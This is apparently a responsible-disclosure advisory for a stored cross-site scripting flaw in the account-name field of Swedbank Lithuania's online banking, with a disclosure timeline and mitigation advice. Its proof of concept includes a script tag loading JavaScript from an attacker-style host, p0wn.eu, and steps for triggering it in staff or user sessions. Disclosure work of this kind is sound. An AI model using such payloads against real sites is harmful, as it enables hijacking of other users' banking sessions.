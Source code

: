 SWEDBANK: Stored-Cross-Site-Scripting vulnerability in Retail Banking application
=================================================================================

Description
-----------
A regular authenticated internet banking user has an option to set a bank’s account name to anything arbitrary with char limit of 35. The internet baking application hosted at https://www.swedbank.lt/private is vulnerable to a Stored-Cross-Site-Scripting attack in the this account name field. 
A malicious actor can set a specially crafted payload and save it to the own account. It is possible that other system’s users (banking personnel, call centre stuff etc.) who work regularly with retail clients could “find” this malicious payload while observing a specific account through routine tasks or on demand calls. This would lead to compromise other users and elevate privileges for an attacker.

Proof-of-Concept
----------------
Authenticate to the web application at:
https://www.swedbank.lt/private

Then open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases
`pageId = private.home.important.aliases`

Then change any account name to this payload:
```
A<script src=“//p0wn.eu”></script>
```
And save the user input form.

*Note* To make an isolated check from external network a simple hint can be used:
Point any short domain with a name like `p0wn.eu` and write an IP resolution into the system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop (browser):
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

The issue with unfiltered user input and fail to sanitise output in the web content can lead to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) who work regularly with retail clients.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
